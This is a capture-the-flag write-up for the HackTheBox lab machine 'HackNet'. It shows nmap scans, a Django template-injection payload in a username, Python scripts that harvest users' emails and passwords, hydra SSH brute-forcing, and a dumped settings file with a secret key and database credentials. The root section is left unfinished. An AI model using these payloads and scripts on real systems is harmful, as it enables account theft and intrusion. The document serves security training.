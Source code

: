 ```yaml
---
name: HackNet
difficulty: medium
os: linux
platform: htb
date: 2025/11/14
releasedDate: 2009-12-31
userFlag: false
rootFlag: false

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/d131f54a035866ca64f0aff0a8e1fc14.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.85 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We add dns resolution for target machine in `/etc/hosts` file

```
10.10.11.85  hacknet.htb
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p -sCV 10.10.11.85 -o targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: HackNet - social network for hackers
|_http-server-header: nginx/1.22.1
```

We find a web application running on port 80. We navigate to the web page and find a login and a registration page.

We register a new user and login to the application. We find a web that allows us to add posts, comments and like other users posts.

We discover a GET endpoint `/likes/<post_id>` that returns a list of users that liked a post:
```html
<div class="likes-review-item">
    <a href="/profile/4">
        <img src="/media/4.jpg" title="zero_day">
    </a>
</div>
<div class="likes-review-item">
    <a href="/profile/7">
        <img src="/media/7.png" title="blackhat_wolf">
    </a>
</div>
<div class="likes-review-item">
    <a href="/profile/10">
        <img src="/media/10.png" title="datadive">
    </a>
</div>
```

We can see there is a `title` attribute in the img tag that reveals the username of the user. This looks like a posible SSTI (Server Side Template Injection).

We also discover a GET endpoint `/like/<post_id>` that allows us to like any post in the application (even if post is private):
```
Success
```

We can use these two endpoints on our advantage.

1. Like all posts in the application using `/like/<post_id>` endpoint.
2. Change our username to a payload that take advantage of the SSTI vulnerability.
3. Visit the `/likes/<post_id>` endpoint and check the SSTI payload results.

## User Exploitation

First, we like all the posts in the application. We can do this by iterating over all the post ids and sending a GET request to the `/like/<post_id>` endpoint
```python
import requests
import re

url = "http://hacknet.htb"
cookies = {
    "csrftoken": "gND22sgd7wbhDsX3nJi2VzvgeZO3ys43",
    "sessionid": "axxrdqs5xyzhytt1f2l1ve4bqgh7tbtk"
}
myid = 27

profile_pat = re.compile(
    rf'<a\s+href="/profile/{re.escape(str(myid))}"[^>]*>.*?<img[^>]*\btitle="([^"]+)"',
    re.DOTALL | re.IGNORECASE
)

def  getKey(num):
    res1 = requests.get(f"{url}/likes/{num}", cookies=cookies)
    if not res1.status_code == 200:
        print(f"Error getting likes for post {num}")
        return None

    profile_match = profile_pat.search(res1.text)
    # see if my id (34) is in list, if remove like
    if not profile_match:
        res2 = requests.get(f"{url}/like/{num}", cookies=cookies)
        print(f"Like post {num}, status code: {res2.text}")

if __name__ == "__main__":
    for i in range(1, 101):
        getKey(i)
```

Next, we change our username to the following payload:
```
{{ users.0.email }}
```

Finally, we visit the `/likes/<post_id>` endpoint to check the SSTI payload results. First, we get emails:
```python
import requests
import re

url = "http://hacknet.htb"
cookies = {
    "csrftoken": "gND22sgd7wbhDsX3nJi2VzvgeZO3ys43",
    "sessionid": "axxrdqs5xyzhytt1f2l1ve4bqgh7tbtk"
}
myid = 27
filename = "emails.txt"

profile_pat = re.compile(
    rf'<a\s+href="/profile/{re.escape(str(myid))}"[^>]*>.*?<img[^>]*\btitle="([^"]+)"',
    re.DOTALL | re.IGNORECASE
)


def  getKey(num):
    res1 = requests.get(f"{url}/likes/{num}", cookies=cookies)
    if not res1.status_code == 200:
        print(f"Error getting likes for post {num}")
        return None

    profile_match = profile_pat.search(res1.text)

    return profile_match.group(1) if profile_match else None

if __name__ == "__main__":
    with open(filename, "a") as f:
        for i in range(1, 101):
            key = getKey(i)
            if key:
                f.write(f"{key}\n")
```

Then we change our username to the following payload:
```
{{ users.0.password }}
```

Finally we change the `filename` and we run the script again to get the passwords.

Next step is to remove domain part from emails and keep only usernames:
```bash
awk -F'@' '{print $1}' emails.txt > usernames.txt
```

Then we merge both files to get a list of valid credentials:
```bash
paste -d':' usernames.txt passwords.txt > merged.txt
```

We use `hydra` to bruteforce ssh using the valid credentials we got:
```bash
hydra -C merged.txt ssh://hacknet.htb -I
```
```
[DATA] attacking ssh://hacknet.htb:22/
[22][ssh] host: hacknet.htb   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
```

We successfully bruteforced the ssh credentials for user `mikey`.
We ssh into the machine using the credentials we got:
```bash
ssh mikey@hacknet.htb
whoami
```
```
mikey
```

## Root Exploitation

cat HackNet/settings.py 

SECRET_KEY = 'agyasdf&^F&ADf87AF*Df9A5D^AS%D6DflglLADIuhldfa7w'

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'hacknet',
        'USER': 'sandy',
        'PASSWORD': 'h@ckn3tDBpa$$',
        'HOST':'localhost',
        'PORT':'3306',
    }
}

pbkdf2_sha256$720000$I0qcPWSgRbUeGFElugzW45$r9ymp7zwsKCKxckgnl800wTQykGK3SgdRkOxEmLiTQQ=

## Conclusion
